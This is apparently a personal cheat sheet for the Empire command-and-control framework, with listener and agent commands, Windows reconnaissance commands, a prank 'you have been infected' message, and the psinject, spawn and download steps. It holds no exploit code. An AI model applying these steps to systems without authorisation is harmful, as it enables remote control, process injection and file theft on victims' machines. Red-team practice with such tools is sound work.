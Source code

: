 % Empire

This is to test, play withg empire, a framework to send comand to a remote session (from Linux to Windows)
Usually, it take 3 sec for empire to connect
Before, you should check the ip

# Quick start
* `>help`
* Listener | agent | module
* `>listeners`
  * `>uselisteners <Tab>`
  * `>info`
  * `>sert|unset`
  * `>execute`
* `>usestager <Tab> `
* `>agents`
  * `>list`


# Execute (Windows commands)

### Analyse
*   whoami 
*   query user          # Get connected users
*   tasklist
*   wmic process list   # Windows Management Instrumentation Command-line tool

### Message
*   msg user Hi you have been infected

### Sound
*   pressing <c-g> in the shel lmake a bad cmd and trigger the beep

### Lateral movements
To make a sound, yo umust run as the user that is logged (the frist arg of msg)

*   start
*   runas /user:user cmd
*   runas /user:user "notepad c:\boot.ini"
*   tskill notepad   or pskill notepad


# Empire commands (latteral movements ...)

*   `download` stores -> files in ./downloads/AGENT_NAME
                    -> log in .agent.log
*   `kill` all                     

*   `ps`                          # List processes
*   `ps` powershell               # With filter

*   `spawn` <listener>            # Like a span http1
                                # SPawn a new powershell listener process

*   `psinject` http1 explorer.exe # The format is psinject <listener> <procname/pid> 
                                # Warning do not inject in LSASS
                                # Please choose a process in the same section
                    
# Prepare (Linux)

*   espeak Hi from the deep --stdout > hi.wav

